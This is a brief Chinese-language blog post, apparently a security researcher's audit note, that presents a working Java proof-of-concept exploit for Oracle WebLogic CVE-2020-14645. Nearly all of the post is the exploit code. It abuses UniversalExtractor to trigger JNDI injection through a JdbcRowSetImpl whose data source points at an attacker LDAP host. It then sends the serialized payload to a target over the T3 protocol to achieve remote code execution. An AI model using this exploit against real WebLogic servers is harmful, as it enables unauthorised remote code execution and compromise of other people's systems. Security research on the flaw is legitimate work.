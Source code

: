 ```yaml
---
title: "Weblogic CVE-2020-14645"
date: 2020-07-20T11:58:04+08:00
draft: false
tags:
- Java
- Weblogic
series:
- Weblogic
categories:
- 代码审计
---
```


UniversalExtractor任意调用get、is方法导致JNDI注入。

<!--more-->

```java
package com.supeream;

import com.sun.rowset.JdbcRowSetImpl;
import com.supeream.serial.Reflections;
import com.supeream.serial.Serializables;
import com.supeream.weblogic.T3ProtocolOperation;
import com.tangosol.util.comparator.ExtractorComparator;
import com.tangosol.util.extractor.UniversalExtractor;

import java.util.PriorityQueue;

public class CVE_2020_14645 {
    public static void main(String[] args) throws Exception {
        // CVE_2020_14645
        UniversalExtractor extractor = new UniversalExtractor("getDatabaseMetaData()", null, 1);
        final ExtractorComparator comparator = new ExtractorComparator(extractor);

        JdbcRowSetImpl rowSet = new JdbcRowSetImpl();
        rowSet.setDataSourceName("ldap://172.16.2.1:1389/#Calc");
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);

        Object[] q = new Object[]{rowSet, rowSet};
        Reflections.setFieldValue(queue, "queue", q);
        Reflections.setFieldValue(queue, "size", 2);
        byte[] payload = Serializables.serialize(queue);
        T3ProtocolOperation.send("172.16.2.132", "7001", payload);
    }
}
```
Test on jdk8u121 weblogic12.2.1.4
![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/5efa4e85-0d4c-f559-380d-a8f9610d2a0f.png)

由此拓展CVE-2020-14625。

**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**